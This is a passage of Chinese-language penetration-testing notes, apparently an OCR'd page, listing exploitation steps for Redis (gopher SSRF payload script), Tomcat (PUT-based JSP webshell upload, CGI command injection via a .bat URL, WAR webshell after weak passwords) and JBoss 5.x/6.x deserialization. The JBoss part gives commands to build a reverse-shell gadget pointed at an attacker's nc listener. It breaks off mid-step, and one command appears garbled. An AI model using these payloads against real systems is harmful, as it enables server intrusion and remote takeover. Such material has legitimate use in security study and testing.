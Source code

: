 ```python
for x in cmd:
payload += urllib.quote(redis_format(x))
print payload
```

执行该脚本后生成payload，为gopher协议，之后要进行两次url编码

直接get发`?url=gopherxxxxx`

剩下两种都是写脚本，然后发。

### 基于主从复制的命令执行

先过。

## tomcat

### 任意文件写入

```
PUT  /1.jsp xx
xxxx
xxxxx

shell
```

### 远程代码执行

在Tomcat\webapps\ROOT\WEB-INF新建cgi目录，并创建lxhsec.bat文件，内容任意。

之后：

`http://xxxxx/cgi-bin/lxhsec.bat&dir`

### 弱口令+后台getshell

写马，传war包

## Jboss

### 5.x/6.x反序列化

`/invoker/readonly`，返回500 ，说明存在。	

[工具](https://github.com/joaomatosf/JavaDeserH2HC)

挑一个gadget：**ReverseShellCommonsCollectionsHashMap.java**

生成class：`javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java`

生成ser：`javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.ser 192.168.xx.xx:xxxx(nc所在的ip)`

直接发：
